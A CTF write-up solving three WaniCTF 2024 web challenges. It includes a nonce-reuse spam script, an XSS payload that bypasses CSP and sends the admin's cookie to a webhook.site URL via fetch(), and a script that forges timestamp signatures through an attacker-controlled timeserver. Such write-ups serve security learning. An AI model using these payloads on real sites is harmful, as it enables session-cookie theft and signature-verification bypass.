

## [Web] pow

compute hash to get your flag

ハッシュを計算してフラグを取ろう

https://web-pow-lz56g6.wanictf.org/

```js
       function hash(input) {
        let result = input;
        for (let i = 0; i < 10; i++) {
          result = CryptoJS.SHA256(result);
        }
        return (result.words[0] & 0xFFFFFF00) === 0;
      }
      async function send(array) {
        document.getElementById("server-response").innerText = await fetch(
          "/api/pow",
          {
            method: "POST",
            headers: {
              "Content-Type": "application/json",
            },
            body: JSON.stringify(array),
          }
        ).then((r) => r.text());
      }
      let i = BigInt(localStorage.getItem("pow_progress") || "0");
      async function main() {
        await send([]);
        async function loop() {
          document.getElementById(
            "client-status"
          ).innerText = `Checking ${i.toString()}...`;
          localStorage.setItem("pow_progress", i.toString());
          for (let j = 0; j < 1000; j++) {
            i++;
            if (hash(i.toString())) {
              await send([i.toString()]);
            }
          }
          requestAnimationFrame(loop);
        }
        loop();
      }
      main();
    
``` 

I notice that when i found a good number you can spam it and get progress. However the server has rate limit of one minute and using the following script i have made in python it will take forever to do 1000000 right guesses, more aprox. 833 hours.

After sometime i tried to add the same number to the array that is passed in the body and i found out that it counts 2 to the progress: ["2862152","2862152"] == progress + 2. So i created a script that sends 10000 numbers each minute:

```py
import json
import time
import asyncio
import aiohttp

url = "https://web-pow-lz56g6.wanictf.org/api/pow"
data = ["2862152"] * 10000
progress = 0

async def fetch_url(session, url):
    async with session.post(url,data=json.dumps(data)) as response:
        return await response.text()

async def main():
    not_found = True
    flag = ""
    async with aiohttp.ClientSession() as session:
        while not_found:
            tasks = [fetch_url(session, url) for i in range(20)]
            results = await asyncio.gather(*tasks)

            for result in results:
                print(result)
                if "FLAG" in result:
                    flag = result
                    not_found = False
            
            time.sleep(61)
    print(flag)


if __name__ == '__main__':
    asyncio.run(main())

```

Flag: `FLAG{N0nCE_reusE_i$_FUn`

## [Web] noscript

Ignite it to steal the cookie!

https://web-noscript-lz56g6.wanictf.org/

NOTE: In case the server is down, try the following backup server. 上記のサーバーが正しく動作していない場合は、次のバックアップサーバーを使用してください。

Basically you cant load javascript from anywhere because of content security policy.
Tried to update the policy inline:

`<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-inline'; "><br><script>alert(1)</script>`

But did not made it.

There are six endpoints:
- / main page
- /signin which creates a random user using UUID
- GET /user/<uuid> which get user profile, sets CSP in headers
- POST /user/<uuid> which accepts two parameters, user and profile, profile being the one that is vulnerable to xss
- GET /username/<uuid> which shows the user parameter and is vulnerable to xss in that parameter
- POST /report which expects a url like /user/<uuid> and goes to it, it uses redis to save url's to browse.


The solution was using the <meta> refresh tag to navigate to /username/:id which is basically same endpoint just without CSP in place, using two accounts.
First create and account and add the following username and profile payload, adding the actual javascript execution in the username:
```py
# fetch get payload  
fpayload = """<script>
    document.addEventListener('DOMContentLoaded', function() {
        function getCookieValue(name) {
            const value = `; ${document.cookie}`;
            const parts = value.split(`; ${name}=`);
            if (parts.length === 2) return parts.pop().split(';').shift();
        }

        var flagCookieValue = getCookieValue('flag');
        fetch('https://webhook.site/79772fdd-c167-4829-a53c-ba6d3c5fcae6?cookie=' + encodeURIComponent(flagCookieValue), {
            method: 'GET',
            mode: 'no-cors',
            credentials: 'include'
        }).then(response => {
            console.log('Fetch response:', response);
        }).catch(error => {
            console.error('Fetch error:', error);
        });
    });
</script>"""

form_data1 = { "username": fpayload, "profile":"asdfg1"} 
```

Then create another account with the <meta> tag with the refresh pointing to the xss but in the username endpoint like:
```py

payload2 = f"<meta http-equiv='refresh' content='0;url={new_url}'>"

form_data2 = {"username": "foo", "profile": payload2}

```

Then send this last one to the admin to be reported and we should get the cookie in the webhook.

Full python solution(<https://github.com/rerrorctf/writeups/blob/main/2024_06_21_WaniCTF24/web/noscript/writeup.md>):
```py
import requests
import urllib.parse

first = "https://web-noscript-lz56g6.wanictf.org/signin"


p1 = requests.post(first)

note1 = p1.url

# fetch get payload  
fpayload = """<script>
    document.addEventListener('DOMContentLoaded', function() {
        function getCookieValue(name) {
            const value = `; ${document.cookie}`;
            const parts = value.split(`; ${name}=`);
            if (parts.length === 2) return parts.pop().split(';').shift();
        }

        var flagCookieValue = getCookieValue('flag');
        fetch('https://webhook.site/79772fdd-c167-4829-a53c-ba6d3c5fcae6?cookie=' + encodeURIComponent(flagCookieValue), {
            method: 'GET',
            mode: 'no-cors',
            credentials: 'include'
        }).then(response => {
            console.log('Fetch response:', response);
        }).catch(error => {
            console.error('Fetch error:', error);
        });
    });
</script>"""

form_data1 = { "username": fpayload, "profile":"asdfg1"} 

r2 = requests.post(f"{note1}", data=form_data1)

parsed_url = urllib.parse.urlparse(r2.url)

path_parts = parsed_url.path.split('/')
path_parts[1] = 'username'  # Replace 'user' with 'username'
new_path = '/'.join(path_parts)

# Construct the new URL with the modified path
new_url = urllib.parse.urlunparse(('http', 'app:8080', new_path, '', '', ''))
p2 = requests.post(first)

payload2 = f"<meta http-equiv='refresh' content='0;url={new_url}'>"

form_data2 = {"username": "foo", "profile": payload2}

note2 = p2.url

for_admin = urllib.parse.urlparse(note2).path

p3 = requests.post(f"{note2}", data=form_data2)

# send to admin
form_data3 = {"url": for_admin}
send_to_admin = requests.post("https://web-noscript-lz56g6.wanictf.org/report", data=form_data3)

print("Admin response: ", send_to_admin.text)
```

Or a more simple solution:

```html
username: <script>fetch('webhook'+document.cookie)</script>
profile: <meta http-equiv="refresh" content="0; url=/username/id">
```

Another solution:

```html
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>
```

## [Web] One Day One Letter


Everything comes to those who wait

https://web-one-day-one-letter-lz56g6.wanictf.org/

Basically the focus of this challenge is giving one letter of the flag each day:



As we may know, this is not possible to solve the challenge that way, so we need to find a way to speed up the days.

There are two servers:
- The one that receives the requests from the user
- A time server that generates the time and is the source of truth for that.

Basically when we request the main page of the main server a POST request is made with the following body:
```js
{"timestamp":"1719142196","signature":"c77994922fd042ad2ea96d927512f4aa70c70998e3e1ca3044e467a6dfb03ea5883b9657d0f3727d431765be6bd8b1e036cf11bb1f53eb66d5cf566bcac261a7","timeserver":"web-one-day-one-letter-time-lz56g6.wanictf.org"}
```

It will get the public key generated at the "timeserver" and verify if the timestamp is right.

```py
def get_pubkey_of_timeserver(timeserver: str):
    req = Request(urljoin('https://' + timeserver, 'pubkey'))
    with urlopen(req) as res:
        key_text = res.read().decode('utf-8')
        return ECC.import_key(key_text)
```

However we can pass another timeserver without filters allowing us to host a timeserver knowing the privatekey and sign forged timestamps.
Bellow is the script i made:

```py
import requests
import json
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
from urllib.request import Request, urlopen
from urllib.parse import urljoin
from datetime import datetime, timedelta
import time

own_timeserver = "http://localhost:8000"
end_privatekey = "privatekey"
server = "https://web-one-day-one-letter-lz56g6.wanictf.org/"

def get_privatekey_of_timeserver():
    req = Request(urljoin(own_timeserver, end_privatekey))
    with urlopen(req) as res:
        key_text = res.read().decode('utf-8')
        return ECC.import_key(key_text)


privatekey = get_privatekey_of_timeserver() # Get private key

flag = ""
day = 0
while flag == "" or "?" in flag:

    # Generate time
    current_date = datetime.now()
    future_date = current_date + timedelta(days=day)
    unix_timestamp = int(time.mktime(future_date.timetuple()))
    encoded_timestamp = str(unix_timestamp).encode('utf-8')
    timestamp = encoded_timestamp
    
    #Sign timestamp with known private key
    h = SHA256.new(timestamp)
    signer = DSS.new(privatekey, 'fips-186-3')
    signature = signer.sign(h)

    #Send request to the chal server
    data = {"timestamp": timestamp,
            "signature": signature,
            "timeserver":"boar-definite-imp.ngrok-free.app"}
    
    req = requests.post(server, data=data)
    print(req.text)
    
    # TODO: Get flag letters and add to the flag variable


    # Add one more day
    day = day + 1
    
```

And exmaple solution

```py
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import hashlib
import time
import requests
import re
import time

import urllib3
urllib3.disable_warnings()

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

print(pubkey)  # paste at http://attacker-server/pubkey

headers = {
  'Content-Type': 'application/json',
}

proxies = {
  "http": "0.0.0.0:8080",
  "https": "0.0.0.0:8080"
}

time.sleep(10)


def send_req(tstamp, signature):
  json_data = {
      'timestamp': tstamp,
      'signature': signature,
      'timeserver': 'happi.free.beeceptor.com',
  }
  response = requests.post(
      'https://web-one-day-one-letter-content-lz56g6.wanictf.org/',
      headers=headers,
      json=json_data,
      verify=False,
      proxies=proxies,
  )
  return response

def find_letter(html):
    pattern = r'FLAG{\?+([a-zA-Z]).*}'
    match = re.search(pattern, html) 
    
    if match:
        return match.group(1)
    else:
        return 1


if __name__ == "__main__":
    timestamp = int(time.time())
    flag = [0]*12

    for i in range(12):
      idx = timestamp // (60*60*24) % 12
      print(f"{timestamp} -> {idx}")

      # Convert timestamp to string and encode to bytes
      timestamp_bytes = str(timestamp).encode('utf-8')

      h = SHA256.new(timestamp_bytes)
      signer = DSS.new(key, 'fips-186-3')
      signature = signer.sign(h)

      r = send_req(timestamp_bytes.decode(), signature.hex())
      c = find_letter(r.content.decode())
      print(f"[+] {c} found at pos {idx}")
      flag[idx] = str(c)

      # Add one day from the timestamp
      timestamp += 60*60*24
      print(flag)
    
    print(''.join(flag))
    
# FLAG{lyingthetime}

```